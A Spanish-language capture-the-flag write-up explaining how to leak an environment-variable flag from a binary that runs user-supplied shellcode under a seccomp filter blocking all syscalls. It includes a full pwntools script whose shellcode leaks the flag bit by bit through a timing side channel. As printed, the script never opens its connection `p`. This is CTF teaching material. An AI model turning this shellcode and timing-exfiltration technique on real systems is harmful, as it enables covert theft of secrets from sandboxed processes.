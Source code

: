 # Saving The Environment

Este ejercicio nos da un programa que imprime las variables de entorno del usuario que lo ejecute.\
El usuario que ejecuta el binario en remoto tiene la variable `FLAG=laflag`, donde está la flag que queremos conseguir. Parece que simplemente hay que ejecutar el programa y ya, pero si lo hacemos, donde debería aparecer la flag, saldrá `FLAG=... Lets not print this one...`.  Esto se debe a lo siguiente:

El programa hace el siguiente bucle:

```c
found_flag = false;
for (i = 0; envp[i] != (char *)0x0; i = i + 1) {
    check = strncmp(envp[i],"FLAG=",5);
    if (check == 0) {
        puts("FLAG=... Lets not print this one...");
        found_flag = true;
    }
    else {
        puts(envp[i]);
    }
}
if (!found_flag) {
    puts("Error: FLAG not found in environment variables");
    exit(1);
}
```

Comprueba cada línea que se imprime y, si contiene `FLAG=`, muestra otro texto en su lugar.

Si nos fijamos en cómo funciona el programa, podemos ver que, después de imprimir las variables, nos pide 2 inputs:

```c
puts("Environment Variables:");
print_env(envp);

code_len = 0;
__isoc99_scanf("%u", &code_len);

if (0x200 < code_len) {
    puts("You'd like uh");
    exit(1);
}
```

Primero nos pide un tamaño.

```c
read(0, code_buffer, (ulong)code_len);
```

Después, nos pide el contenido. Y si miramos más atrás:

```c
code_buffer = (byte *)mmap((void *)0x500000,0x200,7,0x22,-1,0);
```

La zona donde se guarda es una región de memoria con permisos de ejecución.

Aún por encima, el programa ejecuta el código de esa zona:

```c
(*(code *)code_buffer)(0,0,0,0,0,0);
```

Parece que, como tenemos el control, podemos simplemente hacer un ret2syscall. Pero el programa hace lo siguiente:

```c
seccomp_filter = seccomp_init(0);
seccomp_rule_add(seccomp_filter,0,1,0);
seccomp_rule_add(seccomp_filter,0,0,0);
seccomp_load(seccomp_filter);
seccomp_release(seccomp_filter);
```

Estos son filtros **seccomp** que limitan lo que se puede llamar. En este caso, usando la herramienta [Seccomp Tools](https://github.com/david942j/seccomp-tools) podemos ver que **todas las syscalls están bloqueadas**:

```c
line  CODE  JT  JF  K
=================================
0000: 0x20  0x00 0x00 0x00000004 A = arch
0001: 0x15  0x00 0x03 0xc000003e if (A != ARCH_X86_64) goto 0005
0002: 0x20  0x00 0x00 0x00000000 A = sys_number
0003: 0x35  0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005
0004: 0x15  0x00 0x00 0xffffffff /* no-op */
0005: 0x06  0x00 0x00 0x00000000 return KILL
```

Como el programa ejecuta nuestro shellcode pero no podemos hacer ninguna syscall, la idea es **crear un ataque basado en tiempo** para filtrar bit a bit la flag usando condicionales y bucles.

Para esto necesitamos saber la dirección en memoria de la flag.\
Sabemos que en remoto la flag está en la línea 5 de las variables de entorno. Si conseguimos hacer un leak de esa misma línea en local (aunque no sea la flag real), podremos calcular el offset necesario para acceder a ella en remoto. Con GDB se puede obtener ese offset comparando con `rbp`.

El resto es implementar un shellcode que lea cada byte y nos permita reconstruir la flag caracter a caracter.

```python
#!/usr/bin/env python3

from pwn import *
import time

exe = ELF("./chall")

context.binary = exe
context.terminal = ["kitty"]
context.log_level = 'error'
gdbscript = """
b *0x401471
c
"""

def get_bit(offset, bit):
    #p = process(exe.path)
    #p = gdb.debug(exe.path, gdbscript)

    shellcode = asm(f'''
        mov rdi, [rbp + 0x150]
        xor rax, rax
        xor rbx, rbx

        mov al, byte ptr [rdi + {offset}]
        mov bl, {1 << bit}
        and al, bl

        imul rax, 0x20000000
    loop_start:
        cmp rax, r11
        je loop_finished
        inc r11
        imul ebx, 0x13
        jmp loop_start
    loop_finished:
        syscall
    ''', arch='amd64')
    
    p.recv(timeout=0.2)
    p.sendline(str(len(shellcode)).encode())
    p.send(shellcode)
    start_time = time.time()

    try:
        p.recvall(timeout=2)
    except EOFError:
        pass
    now = time.time()
    diff = now - start_time
    print(diff)

    if diff > 0.5:
        return 1
    else:
        return 0

flag = ''
offset = 0
while '}' not in flag:
    bits = []
    for i in range(8):
        bits.append(get_bit(offset, i))

    byte_completo = 0
    for bit in reversed(bits):
        byte_completo = (byte_completo << 1) | bit

    flag += chr(byte_completo)
    print(f"Flag parcial: {flag}")
    offset += 1

print(f"Flag final: {flag}")
```

```bash
$ python3 solve.py
Flag parcial: s
Flag parcial: sn
Flag parcial: sna
Flag parcial: snak
Flag parcial: snake
. . .
Flag final: snakeCTF{SECRET}
```
